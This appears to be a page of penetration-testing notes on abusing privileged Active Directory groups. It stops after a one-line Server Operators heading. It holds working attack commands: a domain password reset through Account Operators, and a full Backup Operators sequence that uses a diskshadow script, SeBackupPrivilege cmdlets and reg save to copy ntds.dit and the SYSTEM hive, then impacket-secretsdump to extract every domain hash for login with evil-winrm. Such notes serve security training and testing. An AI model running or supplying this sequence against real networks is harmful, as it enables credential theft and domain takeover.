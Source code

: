 # Groups

### **Account Operators**

It can manage and create both administrator and non-administrator users, thus also changing the passwords of other users.

```powershell
net user <USER> NewPassword1234 /domain
```

### **Backup Operators**

to dump ntds.dit we need to be able to back up the ntds.dit file, a file containing all the hashes and information of the domain. Download the following files:

* [SeBackupPrivilegeUtils.dll](https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll)
* [SeBackupPrivilegeCmdLets.dll ](https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll)

Create a file named diskshadow.txt containing these lines.

```vim
set context persistent nowriters #
set metadata c:\tmp\metadata.cab #
add volume c: alias myAlias #
create #
expose %myAlias% x: #
exec "cmd.exe" /c copy x:\windows\ntds\ntds.dit c:\tmp\ntds.dit #
delete shadows volume %myAlias% #
reset #
```

Create a folder named 'tmp' on the machine.

```powershell
mkdir c:\tmp
```

And upload all three files

```powershell
upload SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilegeUtils.dll
upload diskshadow.txt
```

Start DiskShadow

```powershell
diskshadow.exe /s c:\tmp\diskshadow.txt
```

<figure><img src="../../../.gitbook/assets/Pasted image 20230510125209.png" alt=""><figcaption></figcaption></figure>

Import the previously loaded modules and use the command.

```powershell
Set-SeBackupPrivilege
```

Copy the SYSTEM and NTDS.dit files and download them.

```powershell
reg save HKLM\SYSTEM c:\tmp\system
copy-filesebackupprivilege x:\windows\ntds\ntds.dit c:\tmp\ntds.dit -overwrite
```

Use IMPACKET's secretdump to dump the hashes and log in with evil-winrm.

```bash
impacket-secretsdump -ntds ntds.dit -system system local
```

### **Server Operators**

Can you restart the services and modify their PATH?
